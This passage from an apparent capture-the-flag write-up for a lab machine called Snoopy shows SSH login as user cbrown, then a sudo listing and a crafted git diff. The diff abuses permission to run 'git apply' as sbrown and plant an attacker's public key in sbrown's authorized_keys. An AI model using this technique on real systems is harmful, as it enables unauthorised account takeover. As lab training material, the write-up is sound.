 
We have a credential! With this, we can `ssh` in as the user `cbrown`:

<figure><img src="../../.gitbook/assets/image (18) (7) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

No user flag yet.

### Sudo Git Apply --> User

Checking our `sudo` privileges, we see this:

```
cbrown@snoopy:~$ sudo -l
[sudo] password for cbrown: 
Matching Defaults entries for cbrown on snoopy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git apply *
```

We can run commands as `sbrown` using `git apply *`. This means using a `diff` output, we can use this to overwrite any file that `sbrown` owns. In this case, we can put our public SSH key within the `.ssh/authorized_keys` folder.

Then, we can use `diff` on a random folder and this folder. We can use the `.bash_history` file of `cbrown` because it has nothing within it:

{% code overflow="wrap" %}
```
cbrown@snoopy:/home$ git diff cbrown/.bash_history cbrown/.ssh/authorized_keys 
diff --git a/cbrown/.bash_history b/cbrown/.bash_history
deleted file mode 120000
index dc1dc0c..0000000
--- a/cbrown/.bash_history
+++ /dev/null
@@ -1 +0,0 @@
-/dev/null
\ No newline at end of file
diff --git a/cbrown/.ssh/authorized_keys b/cbrown/.ssh/authorized_keys
new file mode 100644
index 0000000..8e881d1
--- /dev/null
+++ b/cbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa KEY kali@kali
```
{% endcode %}

